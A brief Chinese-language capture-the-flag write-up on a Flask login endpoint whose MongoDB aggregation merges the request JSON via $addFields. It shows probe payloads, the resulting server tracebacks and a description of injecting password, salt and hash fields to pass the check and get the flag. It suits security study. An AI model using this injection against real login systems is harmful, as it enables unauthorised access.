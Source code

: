 ### 1,  识别到mongodb注入
请求payload为：  {“name”:"$", "password":"111"}, 返回错误
```
Traceback (most recent call last):
  File "/home/appuser/mongo_in/flask/server.py", line 38, in login
    user = users.aggregate([{"$match": {"user": request.json["name"]}}, {"$addFields": request.json}]).next()
TypeError: 'NoneType' object is not subscriptable
```
可确认pymongo sqli, 调用 users.aggregate([{"$match": {"user": request.json["name"]}}, {"$addFields": request.json}]).next() 查询db

### 2,  用户校验
请求payload返回结果不同
```
{“name”:"admin1"}
{“name”:"admin"}
```
{“name”:"admin"} 返回报错：
```
Traceback (most recent call last):
  File "/home/appuser/mongo_in/flask/server.py", line 39, in login
    if hashlib.sha256((user["password"] + user["salt"]).encode("UTF-8")).hexdigest() == user["hash"]:
KeyError: 'password'
```
猜测json未带入password时， user!=None, 但不存在“password”键值

### 3,  bypass校验
   {"$addFields": request.json} 根据request.json返回结果。
   构造password salt hash bypass check， 并获取flag

![alt text](flag.png)

